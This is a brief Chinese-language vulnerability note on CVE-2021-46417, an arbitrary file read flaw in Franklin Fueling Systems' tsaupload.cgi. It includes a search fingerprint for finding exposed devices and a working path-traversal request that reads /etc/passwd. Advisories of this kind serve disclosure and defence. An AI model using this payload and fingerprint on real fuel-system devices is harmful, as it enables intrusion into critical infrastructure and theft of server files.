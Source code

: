 # 

# Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## 网络测绘

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](./images/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](./images/202207151055335.png)


